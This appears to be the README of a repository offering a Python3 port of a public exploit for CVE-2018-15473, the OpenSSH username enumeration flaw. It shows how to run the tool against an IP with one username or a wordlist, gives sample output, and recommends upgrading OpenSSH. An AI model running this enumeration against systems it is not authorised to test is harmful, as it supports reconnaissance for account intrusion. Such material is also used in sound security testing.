 ## CVE-2018-15473


**SSH-Username-Enumeration-Exploit (OpenSSH 2.3 < 7.7)**

Edited version of the original exploit: [https://www.exploit-db.com/exploits/45233](https://www.exploit-db.com/exploits/45233)

- Converted to Python3
- Added username wordlist option

## How To Run


```shell
#Ensure that you install the requirements:
foo@bar:~$ pip3 install -r requirements.txt
```

```shell
#For single username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -u root
[+] root is a valid username
```

```shell
#For multiple username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -w username_wordlist.txt
[+] root is a valid username
[-] mysql is an invalid username
[-] mike is an invalid username
[-] foo is an invalid username
[-] bar is an invalid username
Valid Users: 
root
```

```shell
#For more option:
foo@bar:~$ ./CVE-2018-15473.py -h
```

## About the Vulnerability:


The system responds differently to valid and invalid authentication attempts. A remote user can send specially crafted requests to determine valid usernames on the target system. Thus, a remote user can determine valid usernames on the target system.

## Solution:


OpenSSH server should be upgraded to, or higher than, version 7.7
